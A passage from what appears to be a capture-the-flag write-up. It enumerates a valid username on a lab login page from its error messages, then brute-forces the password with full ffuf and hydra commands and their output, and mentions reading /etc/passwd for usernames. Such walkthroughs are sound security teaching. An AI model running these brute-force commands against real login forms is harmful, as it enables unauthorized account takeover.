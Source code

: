 Testing the form with simple credentials, we get the message `This user doesn't exist`.

![Web 80 Nano Login Fail](web_80_nano_login_fail.webp){: width="1200" height="600" }

With a message like that, we can assume that we will be able to discover valid usernames with brute-force.

Using `ffuf` or `hydra`, we discover a valid username: `puppet`

```console
$ ffuf -u 'http://nano.cherryontop.thm/login.php' -X POST -d 'username=FUZZ&password=admin&submit=' -H 'Content-Type: application/x-www-form-urlencoded' -w /usr/share/seclists/Usernames/top-usernames-shortlist.txt -mc all -t 100 -fr "This user doesn't exist"
...
puppet                  [Status: 200, Size: 2370, Words: 733, Lines: 61, Duration: 453ms]

$ hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -p admin nano.cherryontop.thm http-post-form "/login.php:username=^USER^&password=^PASS^&submit=:This user doesn't exist" -t 64 -F
...
[80][http-post-form] host: nano.cherryontop.thm   login: puppet   password: admin
...
```
{: .wrap }

Now, trying to login with the valid username, we can see that we get the message: `Bad password`

![Web 80 Nano Login Fail Two](web_80_nano_login_fail2.webp){: width="1200" height="600" }

We can also brute-force for the password, same way as before.

```console
$ ffuf -u 'http://nano.cherryontop.thm/login.php' -X POST -d 'username=puppet&password=FUZZ&submit=' -H 'Content-Type: application/x-www-form-urlencoded' -w /usr/share/seclists/Passwords/cirt-default-passwords.txt -mc all -t 100 -fr "Bad password"
...
master                  [Status: 302, Size: 333, Words: 37, Lines: 12, Duration: 143ms]

$ hydra -l puppet -P /usr/share/seclists/Passwords/cirt-default-passwords.txt nano.cherryontop.thm http-post-form "/login.php:username=^USER^&password=^PASS^&submit=:Bad password" -t 64 -F
...
[80][http-post-form] host: nano.cherryontop.thm   login: puppet   password: master
...
```
{: .wrap }

Using the discovered credentials to login, we get redirected to `http://nano.cherryontop.thm/command.php`, where we discover the flag for the Molly's dashboard.

![Web 80 Nano Dashboard](web_80_nano_dashboard.webp){: width="1200" height="600" }

Checking the posts, we also get a password for `SSH`.

![Web 80 Nano Dashboard Password](web_80_nano_dashboard_password.webp){: width="350" height="600" }

Using the shell we have as the `notsus` user, we can get the username for Molly from the `/etc/passwd` file.
